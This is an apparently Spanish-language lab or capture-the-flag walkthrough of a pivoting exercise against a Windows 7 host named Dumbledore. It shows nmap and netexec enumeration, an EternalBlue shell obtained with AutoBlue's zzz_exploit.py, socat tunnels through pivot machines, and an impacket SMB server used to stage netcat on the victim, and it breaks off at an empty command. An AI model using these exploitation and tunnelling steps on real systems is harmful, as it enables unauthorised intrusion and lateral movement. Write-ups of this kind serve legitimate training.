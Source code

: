 [[192.168.100.7(Nagini)]]
#Dumbledore 
- Pwned

Haremos un scaneo de red con [[NMAP]]
`nmap -sT -Pn --top-ports 500 --open -T5 -v -n 192.168.100.9`

```python
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
554/tcp  open  rtsp
5357/tcp open  wsdapi
```

Para enumerar el servicio SMB usaremos [[CRACKMAPEXEC-NETEXEC]] con:
`netexec smb 192.168.100.4 2>/dev/null`
```python
SMB 192.168.100.4 445 DUMBLEDORE-PC    
[*] Windows 7 / Server 2008 R2 Build 7601 x64 
(name:DUMBLEDORE-PC) 
(domain:Dumbledore-PC) 
(signing:False) 
(SMBv1:True) 
```

Estamos ante un Windows 7 con el puerto SMB expuesto.
Como es una versión y un puerto vulnerables vamos a realizar un ataque de eternalBlue
Usáremos el repositorio de GitHub: `https://github.com/3ndG4me/AutoBlue-MS17-010`
Dentro de esta herramienta usaremos primero `eternal_checker.py` usaremos para saber si la maquina es vulnerable: `python3 eternal_checker.py 192.168.100.9`

Ahora automatizaremos el proceso de obtener una consola interactiva con la herramienta `zzz_exploit.py` ejecutándola con `python3 zzz_exploit.py 192.168.100.9` y conseguiremos usa Shell dentro de la maquina Windows.

Una vez dentro si hacemos `ipconfig` veremos que dentro se encuentra otra interfaz de red con  [[172.18.0.6(Dumbledore)]] 

Nos descargamos netcat para Windows desde `https://eternallybored.org/misc/netcat/`
Lo descomprimimos en un directorio llamado netcat `unzip -d netcat netcat-win32-1.12.zip`
Y el archivo `nc64.exe` deberemos compartirlo con la maquina Windows al directorio `C:\Windows\temp`

Para poder realizarlo tendremos que hacer con socat dos tuneles:
Nagini: `./socat TCP-LISTEN:445,fork TCP:10.10.0.4:445`
Aragog: `./socat TCP-LISTEN:445,fork TCP:192.168.1.21:445`

En la maquina atacante serviremos el puerto 445 `impacket-smbserver smbFolder $(pwd) -smb2support` y en la maquina Windows nos descargamos el archivo que queremos con: ``
